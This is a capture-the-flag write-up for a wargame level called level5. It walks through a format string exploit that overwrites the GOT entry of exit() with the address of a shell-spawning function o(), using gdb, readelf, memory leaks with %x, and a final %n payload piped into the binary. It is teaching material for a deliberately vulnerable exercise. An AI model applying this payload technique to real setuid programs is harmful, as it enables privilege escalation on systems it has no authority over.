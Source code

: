 # level5
- This program has the same vulnerability as the previous two levels: __format string vulnerability__., 
- `main()` calls `n()` then returns.
- `n()` finishes calling `exit()`. it is a subroutine that doen't return. So we can't overwrite the return address of `n`
- A function named `o` runs a shell, but is never called

## Goal
Modify the call of `exit()` by the call of `o()`

## Step 1
`exit()` is called through the __PLT (Procedure Linkage Table)__ resolution. __PLT__ link code to the __GOT__
```console
Dump of assembler code for function n:
   [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

It's mean that `exit` is a dependecy of the program (extern). `exit()` is bind to the program thanks to the __PLT__ and __GOT__ mechanism (same for libc)
> *the purpose is to reduce size of the binary.*  

__GOT__ is a table of addresses where we can find the dependencies addresses.


Since __PIE__ is disabled, the __GOT__ is always at the same address.


## Step 2

```bash
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>
--- OR ---
objdump -t level5
080484a4 g     F .text	0000001e              o
```
`o` is at `0x80484a4`

---

```bash
$ readelf -r level5 | grep exit
08049828  00000207 R_386_JUMP_SLOT   00000000   _exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit
```

The __GOT__ stores  the __address__ of `exit` at `0x8049838`

### Notice
*seen early*
```console
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```  
> 0x80483d0 is not the address of `exit`, it's the address of the __PLT__ entry of `exit`

> 0x8049838 is not the address of `exit`, it's the address of the __GOT__ entry where the address of `exit` is stored 

## Step 3
Lets try to overwrite the __GOT__ entry of `exit` with the address of `o`

```bash
$ gdb level5
(gdb) b *main
(gdb) r
(gdb) set {int}0x8049838=0x80484a4
(gdb) c
$ whoami
level5
(gdb)
```

It works, we have a shell with the user `level5` privileges. (gdb run with the same privileges as the user, not the SUID bit permissions)


## Step 4

We have to leaks the memory until we reach the address of `exit()`

```bash
(python -c 'print "AAAA " + "%x " * 10000'; cat)  | /home/user/level5/level5 | grep 8049838
```
We never reach the address of `exit()`. But we reach the buffer

```bash
(python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level5/level5
```
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```

Buffer is at the 4th position

## Exploit


- Write the __GOT__'s address which store `exit` in the buffer.
- Write 134513828 characters total. 134513828 is the decimal value for the address `o()`
- Access to the buffer through the __4th__ specifier
- Write the total printed characters in the pointer of `exit` with `%n`.



```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat)  | /home/user/level5/level5
```
